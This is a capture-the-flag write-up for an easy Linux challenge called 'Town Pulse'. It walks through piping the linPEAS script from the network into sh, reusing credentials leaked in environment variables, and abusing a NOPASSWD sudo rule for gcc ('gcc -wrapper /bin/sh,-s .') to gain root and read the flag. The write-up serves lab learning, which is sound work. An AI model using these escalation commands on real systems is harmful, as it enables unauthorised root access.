 # CTF Writeup:  Town Pulse

## Challenge Overview
* **Category:** OS Exploitation
* **Difficulty:** ["Easy"]
* **Description:** We have access to a linux box, need to find vulnerabile configuration to escalate privileges and find flag. 


## Tools Used

- [Linpease](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [gtfobins](https://gtfobins.github.io/)
- [bash]

---

## Solution

Usual disclaimer here: the following solution was the one that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

```bash
ssh Pentester@<ip>

# no response
```

```bash
nmap -sV <ip>

#shows diff port
```

```bash
ssh -p 2222 Pentester@<ip>
```


Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for privilege escalations (`privesc` as it's call in `the biz`):

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

```

Under Environment we see `JOAN_TEMPORARY_CREDS=jojocreds1`

Well well well. For reasons mysterious there are temp creds for another user in our environment of our account. Let's try sshing into their account and see what permissions they have. Fingers crossed they're in sudoers and we can use their privesc ours **sinister laughing**. Which account though? 

```bash
ls /home/
# shows JOan 
```
Its probably the joan account. 

```bash

ssh joan@localhost
# no response
```

---

### Step 2: Priv Esc

Now we have access to joan's account, see what groups she's in

```bash
groups
Joan sudo
```

Cool, now let's add our pentester account to sudoers

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on dad5f987a15f."
```

Rubbing the brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a teammate wizard saviour:

![image](./gandalf-white.gif)

Lol, thanks wizard 🧙 10 seconds, one command, and a URL later: 

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

[https://gtfobins.github.io/gtfobins/gcc#sudo]

Doopdeedoop:

```bash
gcc -wrapper /bin/sh,-s .
sudo usermod -aG sudo Pentester
exit
exit
# to log out the pentester. log back in
```


```bash
ssh -p 2222 Pentester@<ip>
```

```bash
groups
Pentester sudo
```

See what command we can run
```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

Run that again. 

---

### Step 3: Flag Retrieval

Now we have root, the flag's gotta be here somewhere, normally just use find (looking for flag.txt) or grep (looking for FLAG within a file) on the entire file system. 

```bash
find / -name flag.txt -type f
/root/flag.txt
cat /root/flag.txt
FLAG{7H15_SUDO_C00K3D_R007}
```
![image](./victory.gif)


---

## Notes

- Don't be afraid to ask for help when you get blocked. Difficult for you can be easy for someone else and vice versa. 
- As a team, set up some tools in comms (like threads in channels) to share progress on challenges.
- Linpeas and gftobins are l337h4x0r

---


